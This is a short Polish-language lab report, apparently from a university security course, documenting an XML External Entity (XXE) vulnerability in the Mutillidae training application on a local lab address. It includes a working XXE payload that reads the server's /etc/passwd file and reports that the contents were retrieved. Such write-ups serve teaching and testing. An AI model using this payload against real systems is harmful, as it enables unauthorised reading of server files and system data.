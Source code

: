 ## Nazwa podatności: XXE - XML External Entity Injection

**Istotność:** 9

---

**Opis:**
XML external entity injection (znany również jako XXE) to luka w zabezpieczeniach sieci, która umożliwia atakującemu ingerowanie w przetwarzanie danych XML przez aplikację. Często pozwala atakującemu na przeglądanie plików w systemie plików serwera aplikacji i interakcję z dowolnym zapleczem lub systemami zewnętrznymi, do których sama aplikacja ma dostęp.

---

**Technika eksploitacji:**
Na stronie http://192.168.255.133/mutillidae/index.php?page=xml-validator.php należy do pola XML wpisać:

```
<?xml version="1.0"?><!DOCTYPE
demo[<!ELEMENT demo (#PCDATA)><!ENTITY xxe SYSTEM
"file:///etc/passwd">]><a><inject>&xxe;</inject></a>
```

Po zatwierdzeniu otrzymano zawartośc pliku /etc/passwd

![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/56219452/0d483d1d-96b1-4d60-859d-ed06f789a269)

